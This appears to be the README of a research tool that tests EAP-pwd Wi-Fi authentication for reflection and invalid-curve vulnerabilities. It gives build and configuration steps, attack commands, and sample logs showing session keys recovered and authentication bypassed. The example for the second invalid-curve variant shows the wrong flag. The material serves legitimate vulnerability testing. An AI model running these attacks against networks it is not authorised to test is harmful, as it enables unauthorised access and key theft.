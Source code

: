 This is an experimental tool to test EAP-pwd implementations for vulnerabilities. We also strongly recommend to perform code inspections to assure all vulnerabilities have been properly addressed.

# Prerequisites

Our scripts were tested on Kali Linux. To install the required dependencies on Kali, execute:

	apt-get update
	apt-get install libnl-3-dev libnl-genl-3-dev pkg-config libssl-dev net-tools git libdbus-1-dev

After this, inside the repository directory compile our modified hostapd and wpa_supplicant tools:

      cd dragonslayer
      ./build.sh

Remember to disable Wi-Fi in your network manager before using our scripts. After disabling Wi-Fi, execute `sudo rfkill unblock wifi` so our scripts can still use Wi-Fi.


# Summary

The attack parameters of our tool are:

- `-a 0`: perform reflection attack.
- `-a 1`: perform invalid curve attack.
- `-a 2`: perform second variant of the invalid curve attack. This variant is highly experimental.

See the examples below for more information. The wrapper scripts `dragonslayer-client.sh` and `dragonslayer-server.sh` are contained in the directory `dragonslayer`. To increase the amount of debug output, you can add the parameter `-d` or `-dd` to both attack tools.

# Testing attacks against the server

## Preperation

Edit the file `dragonslayer/client.conf` and specify:

1. The SSID of the network name using the `ssid` parameter.
2. A valid EAP-pwd username using the `identity` parameter. The attacks only work if an existing identity is specified.
3. Leave the other parameters untouched.

An example of `dragonslayer/client.conf` is the following:

	network={
		ssid="dragonslayer"
		identity="bob"

		key_mgmt=WPA-EAP
		eap=PWD
		password="unknown password"
	}

## Invalid curve attack

To test whether an EAP-pwd server is vulnerable to invalid curve attacks, start `dragonslayer-client.sh` using the `-a 1` parameter. You must also specify the wireless interface to use with the `-i` parameter. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
	[sudo] password for mathy: 
	Successfully initialized wpa_supplicant
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
	wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Associated with 38:2c:4a:c1:69:c0
	wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
	wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
	EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
	     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
	     65 2e 63 6f 6d                                    e.com           
	EAP-pwd: provisioned group 19
	[03:21:18] 38:2c:4a:c1:69:c0: sending a scalar equal to zero
	[03:21:18] 38:2c:4a:c1:69:c0: sending generator of small subgroup as the element
	[03:21:18] 38:2c:4a:c1:69:c0: trying to recover session key..
	[03:21:18] 38:2c:4a:c1:69:c0: successfully recovered the session key. Server is vulnerable to invalid curve attack!
	wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
	wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
	wlp2s0: WPA: Key negotiation completed with 38:2c:4a:c1:69:c0 [PTK=CCMP GTK=CCMP]
	wlp2s0: CTRL-EVENT-CONNECTED - Connection to 38:2c:4a:c1:69:c0 completed [id=0 id_str=]

Notice that the tool will display **Server is vulnerable to invalid curve attack!** if it is indeed vulnerable. If this message is not displayed, try performing the attack a few times again. If none of the attack attempts succeed, the EAP-pwd server is not vulnerable to this specific attack. In this case, also try attacking the EAP-pwd server using a small variant of the invalid curve attack using the `-a 2` parameter:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
	...

Similar to the case above, it will display **Server is vulnerable to invalid curve attack!** if it is indeed vulnerable. If this message is not displayed after several attempts, the EAP-pwd server is not vulnerable to this specific attack.

If the tool doesn't seem to be working, remember that you can let it output more debug messages using for example `./dragonslayer-client.sh -i wlan0 -a 1 -d`. We also recommend that you audit the server code to check that it validates the received scalar and Elliptic Curve point. It can be that these specific attacks don't work, but that more specialized attacks do work.


## Reflection attack

To test whether an EAP-pwd server is vulnerable to a reflection attack, start `dragonslayer-client.sh` using the `-a 0` parameter. You must also specify the wireless interface being used with the `-i` parameter. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 0
	Successfully initialized wpa_supplicant
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
	wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Associated with 38:2c:4a:c1:69:c0
	wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
	wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
	EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
	     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
	     65 2e 63 6f 6d                                    e.com           
	EAP-pwd: provisioned group 19
	[03:22:11] 38:2c:4a:c1:69:c0: Reflected server scalar and element in commit frame
	[03:22:11] 38:2c:4a:c1:69:c0: Skipping verification of recieved confirm value
	[03:22:11] 38:2c:4a:c1:69:c0: Reflected confirm value in confirm frame
	wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
	[03:22:11] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
	[03:22:12] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	[03:22:13] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	[03:22:14] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!

The tool will display **server is vulnerable to reflection attack!** if it is vulnerable. If this message is not displayed, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.


# Testing attacks against the client

## Preperation

First modify `dragonslayer/hostapd.conf` and **edit the line `interface=` to specify the Wi-Fi interface** that will be used to execute the tests. Note that for all tests, once the script is running, you must let the device being tested connect to the **network "dragonslayer" with as username "bob"**. The password can be anything. You can change settings of the AP by modifying `dragonslayer/hostapd.conf`.

## Invalid curve attack

To test whether an EAP-pwd client is vulnerable to invalid curve attacks, start `dragonslayer-server.sh` using the `-a 1` parameter. Once the server is running, connect to it with the client you want to test. Example output is:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-server.sh -a 1
	Configuration file: hostapd.conf
	Using interface wlp2s0 with hwaddr 8a:f5:40:f9:5d:c0 and ssid "dragonblood"
	wlp2s0: interface state UNINITIALIZED->ENABLED
	wlp2s0: AP-ENABLED 
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: authenticated
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.11: associated (aid 1)
	wlp2s0: CTRL-EVENT-EAP-STARTED c4:e9:84:db:fb:7b
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	EAP-pwd: provisioned group 19
	[03:48:15] c4:e9:84:db:fb:7b: sending a scalar equal to zero
	[03:48:15] c4:e9:84:db:fb:7b: sending generator of small subgroup as the element
	[03:48:15] c4:e9:84:db:fb:7b: configured X-coordinate of subgroup generator as session key
	[03:48:15] c4:e9:84:db:fb:7b: Successfully recovered the session key. Client is vulnerable to invalid curve attack!
	wlp2s0: CTRL-EVENT-EAP-SUCCESS c4:e9:84:db:fb:7b
	wlp2s0: STA c4:e9:84:db:fb:7b WPA: pairwise key handshake completed (RSN)
	wlp2s0: AP-STA-CONNECTED c4:e9:84:db:fb:7b
	wlp2s0: STA c4:e9:84:db:fb:7b RADIUS: starting accounting session 35BB5B4BB3793544
	wlp2s0: STA c4:e9:84:db:fb:7b IEEE 802.1X: authenticated - EAP type: 0 (unknown)

The tool will display **Client is vulnerable to invalid curve attack!** if it is vulnerable. The **attack has a 33% chance of failing**. So if this message is not display, you must try executing the attack several times again (i.e. try connecting again using the client). You can only assume the client isn't vulnerable after trying to attack several times!


# General Remarks

- The wireless interface doesn't have to be set to monitor mode. This is the case for all our attack tools.
- If things don't work, it can really help to unplug your Wi-Fi adapter, and plug it back it. Especially when using a virtual machine.

